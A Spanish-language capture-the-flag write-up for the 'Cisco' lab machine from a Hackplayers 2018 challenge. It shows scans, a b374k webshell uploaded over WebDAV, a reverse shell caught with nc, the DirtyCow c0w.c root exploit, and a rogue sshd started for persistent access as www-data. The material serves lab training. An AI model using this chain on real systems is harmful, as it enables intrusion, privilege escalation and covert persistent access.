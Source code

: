 # Hackplayers 2018 - Cisco

Maquina ‘Cisco’ 10.42.0.150

Si realizamos un escaneo básico con nmap encontramos los siguientes servicios

```
$ nmap -sV 10.42.0.150
22/tcp    open  ssh     OpenSSH 5.5p1 Debian 6+squeeze5 (protocol 2.0)
5000/tcp  open  http    nginx 0.7.67
8081/tcp  open  http    Apache httpd 2.2.16
```

Estos servicios web no disponen de una página inicial, por lo que debemos utilizar una herramienta de *fuzzing* para encontrar directorios o archivos ocultos.

![](img/cisco-web1.png)

![](img/cisco-web2.png)

Para encontrar el servicio vulnerable, debemos realizar un escaneo de puertos mas extenso

```
$ nmap -sV -p- 10.42.0.150
15200/tcp open  http    Apache httpd 2.2.16
```

De igual forma, en un primer acceso nos devuelve un error 403, por lo que igualmente buscamos archivos ocultos con dirb o wfuzz.

```
$ dirb http://10.42.0.150:15200
---- Scanning URL: http://10.42.0.150:15200/ ----
+ http://10.42.0.150:15200/server-status (CODE:403|SIZE:295)
==> DIRECTORY: http://10.42.0.150:15200/upload/
==> DIRECTORY: http://10.42.0.150:15200/webdav/
```

La existencia del directorio webdav ya nos sirve para intentar subir archivos. Aunque no es la única forma de llegar a esta conclusión. Podemos obtener la lista de métodos HTTP permitidos con una petición *OPTIONS* o incluso utilizando la herramienta de escaneo de vulnerabilidades Nikto.

```
$ curl -I -X OPTIONS 10.42.0.150:15200
HTTP/1.1 200 OK
Date: Fri, 26 Jan 2018 11:29:49 GMT
Server: Apache/2.2.16 (Debian)
DAV: 1,2
DAV: <http://apache.org/dav/propset/fs/1>
MS-Author-Via: DAV
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK
```

```
$ nikto -host http://10.42.0.150:15200
...
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST, DELETE, TRACE, PROPFIND, PROPPATCH, COPY, MOVE, LOCK, UNLOCK 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (COPY PROPPATCH LOCK PROPFIND UNLOCK listed as allowed)
```

Para subir nuestra webshell favorita utilizamos la herramienta cadaver. En mi caso he utilizado la webshell [b374k](https://github.com/b374k/b374k)

```
$ cadaver http://10.42.0.150:15200/webdav/
dav:/webdav/> put b374k.php
Uploading b374k.php to '/webdav/b374k.php':
Progress: [=============================>] 100.0% of 74132 bytes succeeded.
```

Utilizamos la webshell para conseguir una shell reversa.


![](img/cisco-b374k.png)

```
$ nc -nlvp 8080
connect to [10.42.0.201] from (UNKNOWN) [10.42.0.150] 58959
b374k shell : connected
/>whoami
www-data
/>find / -name *flag* 2>/dev/null
/home/bob/flag.txt
/>cat /home/bob/flag.txt
cat: /home/bob/flag.txt: Permission denied
```

Al parecer, debemos conseguir acceder como el usuario bob para leer el archivo flag.txt.

Una de las formas de acceder como bob es utilizar las credenciales `bob:bob` en el servicio ssh. Aunque yo utilicé un método distinto.

Aunque existe otra forma sencilla de escalar privilegios directamente al usuario root, utilizando DirtyCow. Para ello existe una lista con multiples exploits en <https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54>, entre ellos utilizamos c0w.c en su versión de 32bits.

```
/tmp>gcc -pthread c0w.c  -o c0w
/tmp>./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b765d000
madvise 0

/tmp>passwd
whoami
root
cat /home/bob/flag.txt
Flag{8f9f...}
cat /root/flag.txt
Flag{59bk...}
```

## Bonus: Acceso interactivo por ssh con el usuario www-data

Aunque para realizar la prueba no es necesario conseguir una shell totalmente interactiva, quise probar a levantar el servicio de ssh con una configuración personalizada. Los requisitos son que el usuario www-data se le permita hacer login, y tener un directorio propio donde subir los archivos de claves.

```
$ find / -user www-data -type d -ls 2>/dev/null | grep -v '/proc/'
209688    4 drwxr-xr-x   4 www-data www-data     4096 Jan 26 16:05 /var/cache/apache2
209689    4 drwxr-xr-x   2 www-data www-data     4096 Jan 28  2014 /var/cache/apache2/mod_disk_cache
210213    4 drwxr-xr-x   2 www-data root         4096 Jan 22 21:15 /var/lock/apache2
297282    4 drwx------   2 www-data www-data     4096 Jan 22 22:41 /tmp/vmware-www-data
```

```
cd /var/cache/apache2
mkdir -v ssh
chmod 700 ssh
cd ssh
echo '-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvDarg8hPv45FHxzZslEnEkCQrzHEcKzWJRndIX7haJikqFLC
...
UeUfZQIy4G2nvfoAldyfi16WQz08J3jWxJDVrZUjpsNR33DawVs5
-----END RSA PRIVATE KEY-----' > ssh_host_rsa_key
chmod 600 ssh_host_rsa_key
echo 'ssh-rsa AAAAB3Nz...xOyv' > authorized_keys
chmod 600 authorized_keys

# Launch SSH server
/usr/sbin/sshd -D -p 2222 -o "PermitRootLogin yes" -o "AuthorizedKeysFile /var/cache/apache2/ssh/authorized_keys" -o "UsePrivilegeSeparation no" -o "HostKey /var/cache/apache2/ssh/ssh_host_rsa_key" -o "RSAAuthentication yes" -o "PubkeyAuthentication yes" -d
```

Finalmente accedemos con ```$ ssh www-data@10.42.0.150 -p 2222```

![](img/cisco-ssh.png)

